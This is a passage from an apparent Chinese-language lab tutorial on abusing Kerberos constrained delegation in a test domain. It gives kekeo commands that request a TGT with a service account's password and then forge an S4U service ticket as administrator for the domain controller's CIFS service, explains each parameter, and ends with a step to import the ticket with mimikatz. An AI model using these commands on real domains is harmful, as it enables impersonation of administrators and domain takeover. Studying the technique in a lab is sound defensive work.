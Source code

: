 ```
tgt::ask /user:tsvc /domain:yunying.lab /password:admin1234! /ticket:tsvc.kirbi
```

```
/user:当前用户名
/domain:所在域名
/password:当前用户名的密码
/ticket:生成票据名称，上图里生成的没有按参数设定的来命名，不重要，也可以直接跳过这个参数
```

3）、使用kekeo申请TGS票据

```
tgs::s4u /tgt:TGT_filename /user:administrator@yunying.lab /service:cifs/dc.yunying.lab
```

```
/tgt:上一步通过kekeo生成的tgt票据
/user:想要伪造的用户名写全称（用户名@域名）
/service:想要伪造访问的服务名（服务名/主机的FQDN名称）
```

![1575809323256](Kerberos协议探索系列三委派篇.assets/1575809323256.png)

4）、从kekeo中使用exit命令退出，然后使用mimikatz将生成的TGS文件导入到Kerberos凭据列表中
